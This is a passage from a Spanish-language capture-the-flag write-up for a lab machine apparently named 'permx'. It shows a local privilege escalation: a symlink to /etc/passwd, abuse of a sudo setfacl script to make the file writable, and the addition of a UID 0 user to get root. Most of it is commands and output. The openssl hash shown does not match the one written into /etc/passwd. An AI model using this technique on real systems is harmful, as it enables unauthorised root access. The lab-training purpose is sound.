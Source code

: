 ```bash
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

Verificamos el uso del script, en el cual se debe indicar el usuario que se le otorgarán los permisos, el tipo de permisos y el archivo.

```bash
mtz@permx:~$ sudo /opt/acl.sh 
Usage: /opt/acl.sh user perm file
```

Creamos un enlace simbólico apuntando a `/etc/passwd`. Usamos el script vulnerable para modificar los permisos ACL de `/etc/passwd`, otorgándonos control total. Verificamos que tenemos permisos de escritura sobre el archivo indicado, con lo cual podríamos llegar a editar el `/etc/passwd` y añadir una nueva entrada de un nuevo usuario `root`.

```bash
mtz@permx:~$ ln -s /etc/passwd
mtz@permx:~$ sudo /opt/acl.sh mtz rwx /home/mtz/passwd 
mtz@permx:~$ getfacl /etc/passwd
getfacl: Removing leading '/' from absolute path names
# file: etc/passwd
# owner: root
# group: root
user::rw-
user:mtz:rwx
group::r--
mask::rwx
other::r--
```

Desde nuestro equipo, generaremos una nueva contraseña con `openssl`.

```bash
❯ openssl passwd -1 gzzcoo
$1$ueWnORoK$bD1TcxJC6k99dh8sYay981
```

Agregaremos un nuevo usuario (**gzzcoo**) con `UID 0` (**root**) a `/etc/passwd`. Verificamos que la entrada se ha añadido correctamente.

```bash
mtz@permx:~$ echo 'gzzcoo:$1$4L3Rt/1x$sPjy3MZ5oXnuvx8L.Bi350:0:0:gzzcoo:/root:/bin/bash' >> /etc/passwd

mtz@permx:~$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
mtz:x:1000:1000:mtz:/home/mtz:/bin/bash
gzzcoo:$1$4L3Rt/1x$sPjy3MZ5oXnuvx8L.Bi350:0:0:gzzcoo:/root:/bin/bash
```

Finalmente, nos cambiamos al usuario creado y obtenemos acceso como usuario `root`, con lo cual podemos visualizar la flag de **root.txt**.

```bash
mtz@permx:~$ su gzzcoo
Password: 
root@permx:/home/mtz# cat /root/root.txt 
f9e947624c29********************
```
